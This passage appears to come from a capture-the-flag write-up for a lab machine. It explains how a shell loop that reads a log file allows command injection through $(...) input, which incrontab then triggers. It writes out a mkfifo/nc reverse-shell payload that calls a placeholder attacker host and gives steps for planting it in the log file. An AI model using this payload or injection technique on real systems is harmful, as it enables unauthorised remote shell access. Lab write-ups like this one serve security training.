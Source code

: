 ```
hello 1 2 3 4 5 6 1 friend
```

Next, I checked what the lines in the script did in pieces. `cat` is fairly straightforward, so my first command was `cat $log | cut -d' ' -f3-` - that revealed that it would keep anything after the third field. Piping this into `sort -u` just sorts it and keeps the unique lines; where we get into the real action is the `while` loop. It's also here where I diverge from the commands ever-so-slightly to simplify my PoC:

```bash
cat temp.txt | cut -d' ' -f3- | while read ip; do sh -c "echo ${ip}"; done
```

Notice that I've only changed to an echo, but realistically any command would do here - the key is that we've got a shell command that takes in our "word" from the piped input. Running the command produces the output we expected to see: `2 3 4 5 6 1 friend`. However, what if we decided to change up one of the inputs to something like `$(echo testy)`? Let's change the original input file:

```
hello 1 2 3 4 5 6 1 $(echo testy)
```
Once we re-run it, something interesting happens; on execution the script breaks out and evaluates `$(echo testy)`, causing the final output to be `hello 1 2 3 4 5 6 1 testy`. Nifty - we have our code execution vector. Referring back to the original script, all we should need to do is edit the `/home/kid/logs/hackers` file, pop in some junk entries, and append a reverse shell payload inside of `$()`. Set up a listener and add `1 2 3 4 $(rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc [YOUR IP HERE] [YOUR PORT HERE] >/tmp/g)` to the file and you should receive a shell _nearly instantly_. Wait, but how?

Let's re-visit our LinPEAS input - if you took the time to review carefully, you likely noticed these wierd lines jumping out:

![LinPEAS output that mentions incrontab.](/assets/images/scriptkiddie/linpeas_find_incrontab.png)

After finding and reading some [articles on Hackaday about incrontab](https://hackaday.com/tag/incron/), I came to the conclusion that `incrontab` works essentially the same as `crontab` but with one major caveat - it watches the filesystem rather than a clock. This means that _as soon as_ it senses changes on files or directories, it runs whatever command/script you've asked it to. This makes sense - if their intention was to hack back as hinted at with the website, they'd have the site put an IP address into that file once it detected command injection and kick off an nmap near-instantaneously (this is disabled in the box for obvious reasons).
